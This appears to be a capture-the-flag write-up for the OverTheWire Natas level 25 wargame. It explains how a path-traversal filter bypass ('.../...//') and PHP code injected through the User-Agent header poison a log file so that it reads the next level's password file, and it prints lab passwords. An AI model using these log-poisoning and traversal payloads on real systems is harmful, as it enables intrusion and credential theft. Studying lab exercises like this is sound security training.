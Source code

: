 ```yaml
---
title: Wargames - Natas 25
published: true 
tags: natas
---
```


## [Level 25](https://overthewire.org/wargames/natas/natas25.html)

Username: natas25
password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
Lab URL: http://natas25.natas.labs.overthewire.org/

Main page show quote. Users can select quotes in different languages in the drop list. Domain quote language is English.

![main page](assets/natas/25/main_page.png)

I begin with code analyzing. This function: 

```
function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n"; 
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
```

is interesting because by performing directory traversal, there is access to this file by generating the request to the following URL:
```
http://natas25.natas.labs.overthewire.org/?lang=.../...//logs/natas25_<put_your_sessionid_here>.log
```
the file content is returned. The beginning of file location is
.../.../ because there is an insecure way of protection against directory traversal. Function str_replace from this data produce ../ and this is way attacker wants. So now, when I have access to this file, I only need to put a password in that file. Directly reading the file with the password is impossible because of that part:
```
if(strstr($filename,"natas_webpass")){
    logRequest("Illegal file access detected! Aborting!");
    exit(-1);
}
```
this code checks the presence of "natas_webpass" in the location link if it presents return -1.
Based on the first part of the code in this post, you can see that the data to the file is taken from the "user_agent" parameter. So code for stealing password can be injected via this param, the code with doing this is:
```
<? readfile("/etc/natas_webpass/natas26") ?>
```

![request](assets/natas/25/request.png)

After submitting a request modified in that way, the password is in a log file.

![password](assets/natas/25/password.png)

password: oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T